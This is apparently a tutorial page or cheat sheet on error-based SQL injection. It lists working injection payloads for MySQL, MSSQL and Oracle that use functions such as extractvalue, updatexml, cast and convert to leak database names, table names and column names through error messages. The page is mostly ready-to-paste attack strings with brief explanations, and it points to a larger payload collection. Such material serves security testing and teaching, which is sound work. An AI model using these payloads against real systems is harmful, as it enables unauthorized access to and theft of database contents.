 Error-Based SQL Injection is a technique where attackers intentionally cause database errors to reveal information. When an error message is returned in the server response, it can leak sensitive details about the database structure or content.

---

## 1. Basic Error-Based Injection

To test for SQL injection, you can deliberately introduce syntax errors or divide by zero:

```
' OR 1=1 -- (basic test)
' AND 1=CONVERT(int, 'text') -- (type conversion error)
' AND 1/0 -- (division by zero)
```

If the server returns an SQL error message, it confirms vulnerability.

---

## 2. Leveraging Error Messages to Extract Data

Databases like MySQL, MSSQL, and Oracle leak useful information through error messages. Attackers can abuse this behavior to reveal database details.

### MySQL Example (Using extractvalue()):

```
' AND extractvalue(1, concat(0x3a, (SELECT database()))) --
```

This query returns the current database name as part of an XML parsing error.

### MSSQL Example (Using cast()):

```
' AND 1=cast((SELECT TOP 1 table_name FROM information_schema.tables) AS int) --
```

The server returns an error showing the first table name from the database.

---

## 3. Useful Functions for Error-Based SQLi

|**Database**|**Function**|**Usage**|
|---|---|---|
|MySQL|`extractvalue()`|Leaks data in XML parsing errors|
|MySQL|`updatexml()`|Similar to `extractvalue()`|
|MSSQL|`convert()` / `cast()`|Converts data types to trigger errors|
|Oracle|`to_number()`|Converts string to number, causing errors if invalid|

Example for extracting current database in MSSQL:

```
' AND 1=CONVERT(int, (SELECT DB_NAME())) --
```

---

## 4. Extracting Sensitive Data via Errors

Once you know the technique works, you can refine your queries to leak more precise information.

You can find a vast collection of useful SQL injection payloads to use in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md). Here you have some examples:

- **Current database name:**
```
' AND (SELECT database()) -- (MySQL)
```

- **First table name:**
```
' AND 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables)) -- (MSSQL)
```

- **First column name in a specific table:**

```
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1)), null) -- (MySQL)
```
